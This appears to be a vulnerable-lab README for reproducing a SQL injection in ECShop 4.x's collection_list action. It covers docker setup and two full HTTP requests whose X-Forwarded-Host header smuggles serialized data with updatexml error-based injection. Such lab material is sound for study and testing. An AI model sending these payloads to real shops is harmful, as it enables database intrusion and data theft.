


# ECShop 4.x `collection_list` SQL injection

References:

- https://mp.weixin.qq.com/s/xHioArEpoAqGlHJPfq3Jiw
- http://foreversong.cn/archives/1556

## Vulnerable environment

Execute following command to start a ECShop 4.0.6:

```
docker-compose up -d
```

After server is started, browse the `http://your-ip:8080` to see the installation wizard. Follow the manual, fill in the database address as `mysql`, username and password as `root` and `root`.

## Exploit

The principle of this vulnerability is similar to [xianzhi-2017-02-82239600](https://github.com/vulhub/vulhub/tree/master/ecshop/xianzhi-2017-02-82239600)，arbitrary `insert_` function could be utilized to leverage the SQL injection.

There are multiple `insert_` functions that can be utilizaed. For example, the `insert_user_account`:

```
GET /user.php?act=collection_list HTTP/1.1
Host: your-ip:8080
X-Forwarded-Host: 45ea207d7a2b68c49582d2d22adf953auser_account|a:2:{s:7:"user_id";s:38:"0'-(updatexml(1,repeat(user(),2),1))-'";s:7:"payment";s:1:"4";}|45ea207d7a2b68c49582d2d22adf953a
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.122 Safari/537.36
Cookie: ECS_ID=f7b1398a0fdc189b691a6f1c969911ac1eea8fca;ECS[password]=445ac05c4ae0555ed091bb977b08581f;ECS[user_id]=3;ECS[username]=demo;ECS[visit_times]=2;ECSCP_ID=1a8bddd69b3b81efbe441a185ac52e7d24852d87;PHPSESSID=bb2033d66975ff7c2be29896d2d4260c;real_ipd=172.18.0.1;
Connection: close


```



Notice that you should log in as a normal user first.

Use `insert_pay_log` as a POC:

```
GET /user.php?act=collection_list HTTP/1.1
Host: 192.168.1.162:8080
X-Forwarded-Host: 45ea207d7a2b68c49582d2d22adf953apay_log|s:44:"1' and updatexml(1,repeat(user(),2),1) and '";|
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.122 Safari/537.36
Cookie: ECS_ID=f7b1398a0fdc189b691a6f1c969911ac1eea8fca;ECS[password]=445ac05c4ae0555ed091bb977b08581f;ECS[user_id]=3;ECS[username]=demo;ECS[visit_times]=2;ECSCP_ID=1a8bddd69b3b81efbe441a185ac52e7d24852d87;PHPSESSID=bb2033d66975ff7c2be29896d2d4260c;real_ipd=172.18.0.1;
Connection: close


```


